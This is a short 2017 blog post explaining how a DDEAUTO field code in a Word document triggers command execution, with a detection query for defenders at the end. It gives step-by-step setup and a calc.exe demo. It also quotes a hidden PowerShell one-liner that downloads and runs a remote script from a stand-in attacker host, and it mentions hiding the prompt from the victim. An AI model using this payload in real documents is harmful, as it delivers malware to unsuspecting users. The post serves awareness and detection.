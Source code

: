 ```yaml
---
layout: post
title: "Code Execution in MSWord"
date: 2017-10-11
---
```

I read about a cool way to get code execution in MSWord from [SensePost](https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/ )'s Saif El-Sherei and later read about a way to detect it from [SecurityForRealPeople](https://www.securityforrealpeople.com/2017/10/exploiting-office-native-functionality.html#more)'s David Longenecker. 
Saif does a good job of explaining the steps in his post, but the basic setup is: 
1. <code> Insert </code> tab -> Quick Parts -> <code> Field </code>
2. choose <code> =(Formula) </code> and click ok
3. right-click on <code> !Unexpected End of Formula </code> and choose <code> Toggle Field Codes </code>
4. change the Field Code to contain:
..* <code> {DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"  } </code>
5. save the document and then open it
6. you will get two prompts to click through and then calc will open

The possibilities here are endless. Saif's proof of concept video in the post uses powershell to download an empire launcher
..* <code> { DDEAUTO c:\\Windows\\System32\\cmd.exe "/k powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://evilserver.ninja/pp.ps1');powershell -e $e "}
</code>
I think depending on the access I had on the machine, I would change the syntax to be more stealthy, so the popup doesnt raise any red-flags with the user. 

Execution is lots of fun, but improving defenders and showing them how to find the cool techniques is really where the money is made. 

I drilled down on this particular code execution with the Powershell command below. It will differ with environment and context:
1. <code> Get-EventLog -Log "OAlerts" -Newest 5 | where {$_.eventID -eq 300} | format-list -Property Message</code>
